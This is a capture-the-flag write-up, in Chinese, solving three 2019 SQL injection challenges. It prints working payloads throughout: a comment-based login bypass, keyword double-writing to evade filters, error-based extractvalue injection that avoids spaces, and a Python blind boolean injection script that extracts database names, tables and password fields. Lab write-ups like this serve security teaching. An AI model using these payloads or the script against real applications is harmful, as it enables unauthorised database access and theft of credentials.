 # WriteUp6

## EasySQL

## 【极客大挑战 2019】BabySQL

按普通方法绕过无果。尝试注释掉password,%23即为注释符#

```php
/check.php?username=admin' %23&password=1
```

发现登陆成功

![ ](images/成功登陆.png)

修改查询内容，输入```/check.php?username=1' order by 3%23&password=1```后给出报错信息"... near 'der 3#' and password='1'' "，我们输入的order却变成了der

![ ](images/or过滤.png)

再次输入```/check.php?username=1' oorderrder by 3%23&password=1```，给出报错信息"...to use near 'oderrder 3#' and password='1'' at line 1"

![ ](images/or过滤2.jpg)

我们可以看到or被过滤掉了，所以用一般的方法无法绕过密码登录，我们采用双写的办法绕过过滤，并确定回显点位

```php
/check.php?username=1' uniunionon selselectect 11,22,33 %23
&password=1
```

![ ](images/回显点.png)

可以看到，username的地方显示的是22，passeord的地方显示的是33，我们可以把22和33替换为我们想要查询的内容。我们先查询一下数据库的版本和名称

```php
/check.php?username=1' uniunionon selselectect 11,version(),database() %23&password=1
```

![ ](images/数据库名.png)

可以看到数据库名称为geek,我们继续查询数据库geek中有哪些表

```php
/check.php?username=1' uniunionon selselectect 11,22,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database() %23&password=1
```

![ ](images/表名称.png)

查询第一个表b4bsql中有哪些列

```php
/check.php?username=1' uniunionon selselectect 11,22,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql' %23&password=1
```

![ ](images/b4bsql表中字段.png)

b4bsql中有三个字段，id,username,password。我们再查询一下表中的具体数据。
```php
/check.php?username=1' uniunionon selselectect 11,22,group_concat(id,username,
passwoorrd) frfromom geek.b4bsql %23&password=1
```

![ ](images/查询b4bsql内容.png)

得到flag，完成题目。

## 【极客大挑战 2019】HardSQL

万能密码和双写都不行

![ ](images/万能密码失败.png)

使用extractvalue和updatexml进行报错注入，并使用()来代替空格，使用like来代替=号

```bash
'or(extractvalue(1,concat(0x7e,database())))#
```
得到库名geek

![ ](images/得到库名.png)

```bash
'or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like("geek")))))#
```
得到表名H4rDsq1

![ ](images/得到表名.png)

```bash
'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like("H4rDsq1")))))#
```
得到字段id,username,password

![ ](images/得到字段.png)

```bash
'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)where(id)like('1')))))#
```

得到左半边flag:flag{97f9adc4-4f53-4234-bde7-a7

![ ](images/得到左半边flag.png)

```bash
'or(extractvalue(1,concat(0x7e,(select(right(password,20))from(H4rDsq1)where(id)like('1')))))#
```
得到右半边flag:4-bde7-a7a5d08026e0}，拼接即可得到完整flag{97f9adc4-4f53-4234-bde7-a7a5d08026e0}

![ ](images/得到右半边flag.png)

## 【极客大挑战 2019】FinalSQL

* 尝试输入id，发现如果id超出了范围，就是ERROR!!!这表明语法是正确的

![ ](images/id超出范围.png)

* 如果id输入违法，比如输入字符串，就是ERROR! 表示连语法都错了

![ ](images/id非法.png)

* 基本思路：1^(sql注入判断语句)#
    * 如果页面正常显示(NO! Not this! Click others~~~)，说明id=1，进一步说明sql语句为假

        ![ ](images/id为1.png)

    * 如果页面显示为ERROR!!!，说明id=0，进一步说明sql语句为真

        ![ ](images/id为0.png)

* 判断语句：（爆破库名）数据库名字(geek)第一位比a大吗？比b大吗？python写脚本进行二分查找

* 爆破库名

```python
1^(ascii(数据库名字第n位)>一个数)#
1^(ascii(sustr(datebase(),第n位,1))>一个数)#
"1^(ascii(substr(database(),%d,1))>%d)#"% (i,mid)
```
* python代码

```python
def bomb_database_name():
    import requests
    name = ""
    url_front="http://fbb3589c-5d16-4b53-bdc9-c39b713cc688.node3.buuoj.cn/search.php?id="
    for i in range(1,1000):
        low = int(32)
        high = int(128)
        mid=int((low+high)/2)
        while low<high:
            payload = "1^(ascii(substr(database(),%d,1))>%d)#"% (i,mid)   # 其他爆破只需修改payload
            s = requests.session()
            url = url_front + payload
            r = s.get(url)
            if "ERROR" in r.text:  #sql语句为真，在后半段
                low = mid + 1
            else:
                high = mid
            mid =int((low+high)/2)
            #print(mid,low,high)
        if mid == 32:
            break
        name = name + chr(mid)
        print(name)
```
得到数据库名字geek

![ ](images/爆破数据库名.png)

* 爆破表名

```python
"1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)#"% (i,mid)
```

得到表名F1naI1y,Flaaaaag

![ ](images/爆破表名.png)

* 爆破Flaaaaag表的字段

```python
"1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='Flaaaaag'),%d,1))>%d)#"% (i,mid)
```

得到Flaaaaag表的字段id,fl4gawsl

![ ](images/爆破Flaaaaag的字段.png)

* 爆破F1naI1y表的字段

```python
"1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='F1naI1y'),%d,1))>%d)#"% (i,mid)
```

得到F1naI1y表的字段id,username,password

![ ](images/爆破F1naI1y的字段.png)

* 爆破Flaaaaag表的fl4gawsl字段

```python
"1^(ascii(substr((select(group_concat(fl4gawsl))from(Flaaaaag)),%d,1))>%d)#"% (i,mid)
```

并未得到有用信息

![ ](images/爆破fl4gawsl字段.png)

* 爆破F1naI1y表的password字段

```python
"1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)#"% (i,mid)
```

经过漫长的爆破，得到flag

![ ](images/爆破password.png)

![ ](images/得到flag.png)